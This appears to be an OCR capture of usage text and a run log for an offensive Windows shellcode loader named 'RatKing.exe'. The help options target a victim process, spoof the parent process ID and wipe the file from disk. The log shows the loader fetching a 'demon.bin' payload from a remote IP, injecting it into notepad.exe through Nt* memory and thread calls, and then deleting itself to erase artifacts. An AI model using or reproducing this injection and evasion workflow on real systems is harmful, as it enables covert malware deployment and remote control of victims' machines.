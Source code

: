 ```
  -t, --target   Specify the target/victim process. Default: Self-injection

  -p, --parent   Spoof victim process under a Parent Process ID (This option is ignored for self-injection)

  -k, --kill     Enable self-destruct to auto wipe file from disk.

  -h, --help     Display help screen manual.

|--------------
| Payload       : http://192.168.231.128:9090/demon.bin
| Process       : C:\Windows\System32\notepad.exe
| PPID Spoofing : 4160
| Self Destruct : True
|--------------

[>] Resolving Addresses of ntdll.dll
    |-> Original ntdll.dll: 0x7ff856c10000
    |-> New copy of ntdll.dll: 0x1a068730000
    
[>] CreateProcessW()
    |-> Target Process Created!
    |-> PID: 9168

[>] Fetching Payload
    |-> Payload retrieved successfully!

[>] NtAllocateVirtualMemory()
    |-> Base Address: 0x28D20A30000

[>] NtWriteVirtualMemory()
    |-> Shellcode Injected!

[>] NtProtectVirtualMemory()
    |-> Flipping Memory Protection!

[>] NtCreateThreadEx()
    |-> Shellcode Executed!

[>] DeleteProcThreadAttributeList()
    |-> Deleting Process Artifacts!

[>] CloseHandle()
    |-> Closing Process Handle!

[>] CloseHandle()
    |-> Closing Thread Handle!

[>] RatKing.exe removed from disk!
```
